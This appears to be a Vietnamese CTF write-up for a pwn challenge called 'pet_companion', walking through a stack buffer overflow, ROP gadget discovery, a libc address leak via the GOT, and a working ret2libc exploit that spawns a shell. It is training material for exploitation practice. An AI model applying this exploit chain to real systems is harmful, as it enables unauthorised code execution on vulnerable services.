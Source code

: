 # writeup pet_companion
- bài sẽ có lỗi đó là buffer overflow ?
```c
 __int64 buf[8]; // [rsp+0h] [rbp-40h] BYREF

  setup(argc, argv, envp);
  memset(buf, 0, sizeof(buf));
  write(1, "\n[!] Set your pet companion's current status: ", 0x2EuLL);
  read(0, buf, 0x100uLL);
  write(1, "\n[*] Configuring...\n\n", 0x15uLL);
  ```
- lớp bảo vệ tắt, pie tắt ?
```bash
pwndbg> cs
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFYFortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   65 Symbols	 No	01		/home/as/pwnable/report/hacktheboxx/pet_companion/pet_companion_patched
```
- em tìm được quả gadgets ?
```python
pop_rdi = 0x0000000000400743
pop_rsi_r15 = 0x0000000000400741
write_plt = 0x4004f0
ret = 0x00000000004006df
main_back = 0x000000000040064b
```
- em tìm offset và ghi giá trị rsi là 1 địa chỉ tĩnh chứa địa chỉ libc lấy từ got và có được địa chỉ libc ?
```python
payload = b''.ljust(0x48)
payload += p64(pop_rsi_r15) 
payload += p64(0x600fd8)
payload += p64(0)
payload += p64(write_plt)
payload += p64(main_back)
p.sendlineafter(b'current status:',payload)
p.recvuntil(b'\n')
p.recvuntil(b'guring...')
p.recv(2)
leak_addr = u64(p.recv(8))
base_libc = leak_addr -0x1100f0
log.info(f'leak_addr: {hex(leak_addr)}')
```
- em tính toán các gadgets có trong libc và lấy shell lấy flag ?
```bash
pwndbg> got -r 
State of the GOT of /home/as/pwnable/report/hacktheboxx/pet_companion/pet_companion_patched:
GOT protection: Full RELRO | Found 5 GOT entries passing the filter
[0x600fd8] write@GLIBC_2.2.5 -> 0x7ffff79100f0 (write) ◂— lea rax, [rip + 0x2e08e1]
[0x600fe0] read@GLIBC_2.2.5 -> 0x7ffff7910020 (read) ◂— lea rax, [rip + 0x2e09b1]
[0x600fe8] setvbuf@GLIBC_2.2.5 -> 0x7ffff78812a0 (setvbuf) ◂— push r13
[0x600ff0] __libc_start_main@GLIBC_2.2.5 -> 0x7ffff7821ba0 (__libc_start_main) ◂— push r13
[0x600ff8] __gmon_start__ -> 0x0
```
```python
leak_addr = u64(p.recv(8))
base_libc = leak_addr -0x1100f0
log.info(f'leak_addr: {hex(leak_addr)}')
system_libc = base_libc + libc.symbols['system']
bin_sh = base_libc + 0x1b3d88
payload = b''.ljust(0x48)
payload += p64(0x00000000004006df)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system_libc)
p.sendlineafter(b'current status:',payload)
```
- em đã lấy được shell rồi ?
```bash
[*] leak_addr: 0x7ffff79100f0
[*] Switching to interactive mode
 
[*] Configuring...

$ ls
flag.txt          pet_companion     pet_companion.nam
glibc              pet_companion.i64  pet_companion.py
ld-linux-x86-64.so.2  pet_companion.id0  pet_companion.til
libc.so.6          pet_companion.id1  pet_companion_patched
pet.md              pet_companion.id2  solve.py
$  
```
